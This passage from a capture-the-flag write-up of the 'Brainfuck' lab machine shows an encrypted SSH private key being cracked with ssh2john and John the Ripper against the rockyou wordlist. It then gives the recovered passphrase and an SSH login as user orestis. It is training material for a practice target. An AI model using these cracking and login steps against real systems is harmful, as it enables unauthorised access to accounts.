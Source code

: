 The password is cracked using john.

```powershell
# cracked on windows
python ./run/ssh2john.py ./hashes/brainfuck-orestis.enc.txt | Out-File ./hashes/brainfuck-orestis.txt

# if having error: Error: UTF-16 BOM seen in input file.
# open ./hashes/brainfuck-orestis.txt in sublime and save with encoding utf-8

./run/john.exe --wordlist="D:/Documents/Bug Bounty/SecLists/Passwords/Leaked-Databases/rockyou.txt" ./hashes/brainfuck-orestis.txt
```

![](Brainfuck.assets/image-20210424083739076.png)

```
3poulakia!       (.\hashes\brainfuck-orestis.enc.txt)
```

SSH credential:

**orestis:3poulakia!**

### SSH as orestis

Using the password **3poulakia!**, brainfuck.htb can be access as the user orestis.

```bash
chmod 600 orestis.enc 
ssh -i orestis.enc orestis@brainfuck.htb 
```

![](Brainfuck.assets/image-20210424084309613.png)
